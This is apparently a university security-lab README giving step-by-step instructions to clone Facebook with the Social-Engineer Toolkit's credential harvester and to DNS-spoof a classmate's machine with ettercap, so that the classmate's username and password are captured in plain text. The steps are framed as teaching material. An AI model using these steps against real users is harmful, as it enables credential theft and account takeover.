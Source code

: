 # Phishing Attack

Phishing is a type of social engineering where an attacker sends a fraudulent (e.g., spoofed, fake, or otherwise deceptive) message designed to trick a person into revealing sensitive information to the attacker (a password or credential) or to deploy malicious software on the victim's infrastructure like ransomware.

Phishing attacks have become increasingly sophisticated and often transparently mirror the site being targeted, allowing the attacker to observe everything while the victim is navigating the site, and transverse any additional security boundaries with the victim. 
 
Phishing is by far the most common attack performed by cybercriminal

## Facebook Phishing Attack
### **Goal**
In this session, our goal is to clone the facebook website and to apply a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack using ettercarp in order to retrieve victim's credentials.

### **Settings**
Work in group with another collegue in order to work on your own laptop (avoiding GNS3 lab)
 * **Attacker:** you (in my case **192.168.1.135**)
 * **Victim:** your collegue (in my case **192.168.1.132**)
 * **Router:** you can use your phone. Both the **Attacker** and the **Victim** must be connected to the same network 

### **Steps**
 1. Follow the guideline in order to perform a [**dns spoofing**](https://github.com/fpacenza/NetworkAndSecurity/tree/main/Other%20MITM%20Attacks/DNS%20Spoofing) attack against the victim ip address
 2. Install ***S**oftware **E**ngineering **Toolkit*** (**setoolkit**)

        git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
        cd set
        sudo python3 setup.py install
 3. Install **Apache2**

        sudo apt update
        sudo apt install apache2
 4. Install and enable **libapache2-mod-php**
        
        sudo apt install libapache2-mod-php*
        sudo a2enmod phpX.Y
    * **Attention:** if comaptibility errors with libapache2-mod-php**5** are shown, disable module libapache2-mod-php

 5. Configure setoolkit

        sudo su
        pico /etc/setoolkit/set.config

    * Edit the following parameters:
        
        * **APACHE_SERVER ON**
        * **APACHE_DIRECTORY /var/www/html**
 6. Run **setoolkit** as superuser
    
        sudo setoolkit

 7. Use the interactive shell to clone the facebook website

        enter 1 - Social-Engineering Attacks
        enter 2 - Website Attack Vectors
        enter 3 - Credential Harvester Attack Method
        enter 2 - Site Cloner
 8. Enter your (**Attacker**) ip address
 9. Enter the website url you want to clone, (e.g., **www.facebook.com**)
 10. On the **Victim** side try to ping **www.facebook.com**

            ping -n www.facebook.com
    
        * You should see the ip address of the **Attacker** instead of the ip address of the (real) facebook server
![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/1.dns_spoof_ping_test.png?raw=true)

 11. Navigate **www.facebook.com** from the **Victim** pc
 12. Fillin **username** and **password** fields
 13. Come back to **Attacker** machine e see in **plain text** the username and password as filled in by the **Victim**
 ![alt text](https://github.com/fpacenza/NetworkAndSecurity/blob/main/Phishing/2.phishing.png?raw=true)

**Attention:** if the **Victim** browser has the auto-redirect to https option enabled, the **Victim** will be redirected to **https** web page so, you need to enable also the **ssl** module on your **apache2** webserver 
